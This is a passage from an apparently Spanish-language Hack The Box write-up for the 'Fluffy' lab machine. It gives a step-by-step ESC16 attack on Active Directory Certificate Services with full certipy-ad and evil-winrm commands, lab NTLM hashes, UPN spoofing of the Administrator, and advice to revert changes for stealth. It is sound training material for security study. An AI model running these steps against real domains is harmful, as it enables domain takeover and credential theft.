certipy-ad find -u ca_svc -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -target fluffy.htb -text -stdout -vulnerable
```

La vulnerabilidad **ESC16** en AD CS ocurre cuando una Autoridad de Certificación tiene deshabilitadas las extensiones de seguridad o la validación estricta de extensiones (como el marcado de políticas de aplicación o restricciones de SAN). Combinado con el hecho de que mi cuenta tiene privilegios de inscripción o control en el entorno, esto suele permitir que un atacante emita certificados con identificadores de usuario arbitrarios (Subject Alternative Name - SAN), posibilitando la suplantación de identidad de cualquier usuario de alto privilegio (como el Administrador del Dominio) para autenticarse mediante Kerberos y lograr el control total del dominio.

```
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3150FA7E60CE28AD4DAE41A1B61D8874
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:12:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
                                          FLUFFY.HTB\Administrators
        Read                            : FLUFFY.HTB\Administrators
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates
```

#### Explotación ESC16

**Comprobación de lectura del usuario ca_svc con las credenciales de winrm_svc**

Al ejecutarlo, Certipy se conecta al Active Directory usando las credenciales de `winrm_svc` y me devuelve una lista con las propiedades de `ca_svc`. Entre los datos que arroja, los más importantes son:

- **`sAMAccountName`**: `ca_svc` (el nombre corto de la cuenta).
    
- **`userPrincipalName`**: `ca_svc@fluffy.htb` (el UPN actual, que es el identificador principal que usa para iniciar sesión).
    
- **`objectSid`**: El identificador único de seguridad del objeto (`S-1-5-21-...`).

```
certipy-ad account -u winrm_svc@fluffy.htb -hashes 33bd09dcd697600edf6b3a7af4875767 -user ca_svc read
```

Este paso inicial de lectura sirve para comprobar que cuentas con los permisos necesarios para interactuar con la cuenta `ca_svc` usando las credenciales de `winrm_svc`, y permite verificar el estado actual de sus atributos (como el UPN) para asegurarte de que estás modificando el objeto correcto antes de alterar su identidad en los siguientes pasos del ataque.

<p align="center">

</p>

 **Modificar el atributo UPN del usuario controlado (`ca_svc`)**

- **Qué se hace:** Utilizando las credenciales del usuario `winrm_svc`, modificas el atributo `userPrincipalName` (UPN) del usuario `ca_svc` para cambiarlo a `administrator`.

```
certipy-ad account -u winrm_svc@fluffy.htb -hashes 33bd09dcd697600edf6b3a7af4875767 -user ca_svc -upn administrator update
```

**Por qué se hace:** El UPN es el identificador de inicio de sesión de un usuario en formato de correo (por ejemplo, `usuario@dominio.com`). Al cambiar el UPN de `ca_svc` a `administrator`, estás engañando al servicio para que vincule temporalmente la identidad del usuario `ca_svc` con el nombre del Administrador.

<p align="center">

</p>

**Solicitar el certificado como si fueras el Administrador**

- **Qué se hace:** Pides a la Autoridad de Certificación (CA) que te emita un certificado digital utilizando el usuario `ca_svc` (mediante su hash).

```
faketime "$(ntpdate -q DC01.fluffy.htb | cut -d ' ' -f 1,2)" certipy-ad req -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.232.88 -target dc01.fluffy.htb -ca fluffy-DC01-CA -template User
```

**Por qué se hace:** Debido a la vulnerabilidad ESC16 (donde las extensiones de seguridad o validaciones estrictas están deshabilitadas), la CA emite un certificado válido. Como en el paso anterior cambiaste el UPN a `administrator`, el certificado generado contendrá el SAN (Subject Alternative Name) del **Administrador**. Certipy guarda este resultado en un archivo llamado `administrator.pfx`.

<p align="center">

</p>

Comprobamos que el archivo **administrator.pfx** se ha descargado correctamente.

```
ls
```

<p align="center">

</p>

**Revertir el cambio del UPN por sigilo y orden**

**Qué se hace:** Vuelves a dejar el UPN del usuario `ca_svc` como estaba originalmente (`ca_svc@fluffy.htb`).

```
certipy-ad account -u winrm_svc@fluffy.htb -hashes 33bd09dcd697600edf6b3a7af4875767 -user ca_svc -upn ca_svc@fluffy.htb update
```

**Por qué se hace:** Es una buena práctica para evitar dejar rastros innecesarios o romper la funcionalidad normal de la cuenta de servicio mientras continúas el ataque.

<p align="center">

</p>

**Autenticarse con el certificado para obtener el Hash NTLM**

**Qué se hace:** Utilizas el certificado generado (`administrator.pfx`) para autenticarte contra el Controlador de Dominio (DC) haciéndote pasar por el Administrador.

```
faketime "$(ntpdate -q DC01.fluffy.htb | cut -d ' ' -f 1,2)" certipy-ad auth -dc-ip 10.129.232.88 -pfx administrator.pfx -u administrator -domain fluffy.htb
```

**Por qué se hace:** Al autenticarse correctamente mediante Kerberos usando el certificado del Administrador, la herramienta Certipy solicita un TGT (Ticket Granting Ticket) y realiza una consulta especial al dominio para extraer el **NT hash del Administrador** (`8da83a3fa618b6e3a00e93f676c92a6e`).

<p align="center">

</p>

> 8da83a3fa618b6e3a00e93f676c92a6e

En conclusión, no cambias el **UPN** porque compartan grupo, sino porque **tu cuenta actual (`winrm_svc`) posee privilegios de escritura/control (ACLs) sobre los atributos del objeto `ca_svc`** en la base de datos de Active Directory. Por defecto, un usuario común no puede modificar el UPN de otro usuario, pero si una ACL otorga control total o permisos de escritura sobre ese objeto específico, el directorio activo obedece la orden de Certipy y permite sobrescribir el atributo.
#### Shell 

```
evil-winrm-py -i dc01.fluffy.htb -u administrator -H 8da83a3fa618b6e3a00e93f676c92a6e
```

<p align="center">

</p>

## Conclusión

La máquina **Fluffy** es un entorno de Active Directory que se compromete inicialmente obteniendo credenciales válidas del usuario `j.fleischman` desde un recurso compartido SMB, lo que permite descubrir archivos de configuración y la vulnerabilidad CVE-2025-24071. Mediante un archivo `.library-ms` malicioso depositado en el recurso compartido `IT`, se fuerza una captura de credenciales con _Responder_ para obtener y crackear offline el hash NTLMv2 del usuario `p.agila`. Aprovechando los permisos `GenericAll` que `p.agila` poseía sobre el grupo `SERVICE ACCOUNTS`, se escala al usuario `winrm_svc` mediante `bloodyAD` y `certipy-ad`, logrando acceso vía Evil-WinRM para leer la primera bandera. Finalmente, combinando los privilegios de la cuenta de servicio `ca_svc` dentro del grupo `CERT PUBLISHERS`, el abuso de la vulnerabilidad ESC16 en AD CS, y la manipulación temporal del atributo UPN, se suplanta la identidad del `Administrator` para extraer su hash NTLM y obtener el control total del dominio junto con la bandera `root.txt`